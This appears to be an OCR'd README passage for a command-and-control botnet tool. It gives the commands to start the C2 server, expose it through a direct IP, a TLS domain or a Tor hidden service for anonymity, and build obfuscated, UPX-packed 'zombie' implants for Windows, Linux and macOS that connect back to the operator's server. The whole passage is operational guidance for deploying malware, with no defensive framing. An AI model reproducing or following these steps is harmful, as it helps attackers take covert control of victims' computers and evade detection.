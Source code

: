 ```bash
# Start the C2 server with default configuration
python wsgi.py

# Start with custom binding
python wsgi.py --host 0.0.0.0 --port 8443

# Enable debug logging
python wsgi.py --debug --log-file server.log
```

### Master Control Operation

```bash
# Launch the master interface
python master.py

# The interface will automatically generate a master key
# and connect to the C2 server
```

### Configure Remote Access

External access methods can be configured through the master interface:

1. **Direct IP**: Bind to external IP with custom port
2. **Domain + TLS**: Configure domain name with SSL/TLS encryption
3. **Tor Hidden Service**: Deploy as an onion service for enhanced anonymity

```bash
# Configure external access directly
python server_setup.py --ip <external-ip> --port 443

# Setup with domain and TLS
python server_setup.py --domain your-domain.com --ssl

# Configure as Tor hidden service
python server_setup.py --tor
```

### Zombie Deployment

```bash
# Build Windows executable with medium obfuscation
python build.py --platform windows --server https://your-server.com --obfuscation medium

# Linux binary with advanced obfuscation and UPX compression
python build.py --platform linux --server https://your-server.com --obfuscation advanced --upx

# macOS application with custom icon
python build.py --platform macos --server https://your-server.com --icon path/to/icon.ico

# Python script for flexible deployment
python build.py --platform python --server https://your-server.com
```
